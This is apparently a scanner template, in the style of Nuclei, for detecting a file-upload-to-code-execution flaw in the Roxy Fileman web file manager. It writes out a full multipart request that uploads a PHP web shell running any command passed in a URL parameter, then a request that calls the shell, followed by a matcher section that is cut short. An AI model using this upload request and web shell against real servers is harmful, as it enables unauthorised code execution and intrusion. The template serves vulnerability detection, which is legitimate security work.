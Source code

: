 ```
POST /php/upload.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20kgW2hEKYaeF5iP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Origin: {{BaseURL}}
Referer: {{BaseURL}}
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

------WebKitFormBoundary20kgW2hEKYaeF5iP
Content-Disposition: form-data; name="action"

upload
------WebKitFormBoundary20kgW2hEKYaeF5iP
Content-Disposition: form-data; name="method"

ajax
------WebKitFormBoundary20kgW2hEKYaeF5iP
Content-Disposition: form-data; name="d"

/Uploads
------WebKitFormBoundary20kgW2hEKYaeF5iP
Content-Disposition: form-data; name="files[]"; filename="{{randstr}}.php7"
Content-Type: application/octet-stream

<?php
echo exec($_GET["cmd"]);
?>

------WebKitFormBoundary20kgW2hEKYaeF5iP--

```

### Step - 2

```
GET /Uploads/{{randstr}}.php7?cmd=echo+"roxyfileman"+|+rev HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. namelifyxor

**Type - word**
